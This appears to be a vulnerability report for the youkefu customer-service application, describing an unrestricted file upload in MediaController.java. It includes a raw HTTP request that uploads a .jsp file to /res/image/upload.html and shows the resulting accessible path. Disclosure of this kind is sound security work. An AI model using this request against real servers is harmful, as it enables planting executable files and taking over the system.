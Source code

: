 At line 138 of`\youkefu-master\src\main\java\com\ukefu\webim\web\handler\resource\MediaController.java `,There is an upload method, and after roughly reading the code, it was found that there are no restrictions or filtering processes on the file name inside the method. The file parameter imgFile received by this method conforms to javax.servlet.http.HttpServletRequest type.
![image](https://github.com/user-attachments/assets/94427c92-9d86-45de-a815-2759fb3b6eb3)

```
POST /res/image/upload.html HTTP/1.1
Host: 192.168.96.137:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101
Firefox/111.0
   Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,
*/*;q=0.8
   Accept-Language:
zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data;
boundary=---------------------------13001418927212618391481664692
   Content-Length: 226
   Origin: http://192.168.96.137:8088
   Connection: close
   Referer: http://192.168.96.137:8088/admin/config/index.html
   Cookie: SESSION=ced351be-b08e-443a-972d-17e17693f2a9
   Upgrade-Insecure-Requests: 1
   -----------------------------13001418927212618391481664692
   Content-Disposition: form-data; name="imgFile"; filename="test.jsp"
   Content-Type: text/html
   123456
   -----------------------------13001418927212618391481664692--
```

After the above request packet was sent, the access path of the file was returned
![image](https://github.com/user-attachments/assets/2667dc11-7474-4775-84c7-c984b8847914)

Search for the file name in the server where the application is located, such as "e10adc3949ba59abbe56e057f20f883e. JSP",
Found that the uploaded file has been written verbatim to the disk
![image](https://github.com/user-attachments/assets/5b9d133e-b7eb-400f-ad34-6295d744682c)
Accessible website：http://192.168.96.137:8088/res/image.html?id=upload/e10adc3949ba59abbe56e057f20f883e.jsp

If uploading a image ：
![image](https://github.com/user-attachments/assets/9be3c6c4-bcdd-420d-8b2e-89b54be37e3b)
